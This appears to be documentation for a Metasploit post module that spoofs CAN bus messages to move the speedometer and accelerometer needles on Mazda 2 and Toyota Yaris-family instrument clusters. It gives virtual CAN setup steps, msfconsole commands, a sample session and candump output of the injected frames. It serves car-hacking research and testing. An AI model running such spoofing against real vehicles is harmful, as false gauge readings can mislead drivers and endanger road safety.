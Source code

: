 ## Introduction

mazda_ic_mover or Mazda 2 Instrument Cluster Accelorometer Mover sends CAN message to move the needle of the accelorometer and speedometer of the Mazda 2 instrument cluster. This works specifically for for Mazda 2 1.5 Skyactiv, Mazda Demio, Mazda 2 Demio, Scion iA, Toyota Yaris, Toyota Yaris R and Toyota Yaris iA.

This [research](https://twitter.com/rootconph/status/1171333590161879040) was done by Jay Turla of ROOTCON's Car Hacking Village.

## Verification Steps

Fire up virtual CAN bus:

1. `sudo modprobe can`
2. `sudo modprobe vcan`
3. `sudo ip link add dev vcan0 type vcan`
4. `sudo ip link set up vcan0`

You could also use Craig Smith's [Virtual Instrument Cluster Simulator](https://github.com/zombieCraig/ICSim).

Launch msf:

5. Start `msfconsole`
6. `use auxiliary/server/local_hwbridge`
7. `set uripath testbus`
8. `run`
9. `use auxiliary/client/hwbridge/connect`
10. `set targeturi testbus`

## Options

### CANBUS
CAN Bus to perform scan on, defaults to connected bus

## Scenarios
A successful spoofing of an instrument cluster on a target vehicle:

```
msf auxiliary(client/hwbridge/connect) > run
[*] Running module against 127.0.0.1

[*] Attempting to connect to 127.0.0.1...
[*] Hardware bridge interface session 2 opened (127.0.0.1 -> 127.0.0.1) at 2019-09-11 04:59:40 -0700
[+] HWBridge session established
[*] HW Specialty: {"automotive"=>true}  Capabilities: {"can"=>true, "custom_methods"=>true}
[!] NOTICE:  You are about to leave the matrix.  All actions performed on this hardware bridge
[!]          could have real world consequences.  Use this module in a controlled testing
[!]          environment and with equipment you are authorized to perform testing on.
[*] Auxiliary module execution completed
msf auxiliary(client/hwbridge/connect) > sessions

Active sessions
===============

  Id  Name  Type                   Information  Connection
  --  ----  ----                   -----------  ----------
  2         hwbridge cmd/hardware  automotive   127.0.0.1 -> 127.0.0.1 (127.0.0.1)

msf auxiliary(client/hwbridge/connect) > sessions -i 2
[*] Starting interaction with 2...

hwbridge > run post/hardware/automotive/mazda_ic_mover CANBUS=vcan0

[*] Moving the accelorometer and speedometer...
hwbridge > run post/hardware/automotive/mazda_ic_mover CANBUS=vcan0

[*] Moving the accelorometer and speedometer...
hwbridge > run post/hardware/automotive/mazda_ic_mover CANBUS=vcan0

[*] Moving the accelorometer and speedometer...
hwbridge > run post/hardware/automotive/mazda_ic_mover CANBUS=vcan0

[*] Moving the accelorometer and speedometer...
hwbridge > run post/hardware/automotive/mazda_ic_mover CANBUS=vcan0

[*] Moving the accelorometer and speedometer...
```

You can use candump to verify the CAN messages being sent:

```
jjt@ubuntu:~/pentot/ICSim$ candump -c vcan0
  vcan0  202   [8]  60 01 60 60 60 60 60 00
  vcan0  202   [8]  60 01 60 60 60 60 60 00
  vcan0  202   [8]  60 01 60 60 60 60 60 00
  vcan0  202   [8]  60 01 60 60 60 60 60 00
```

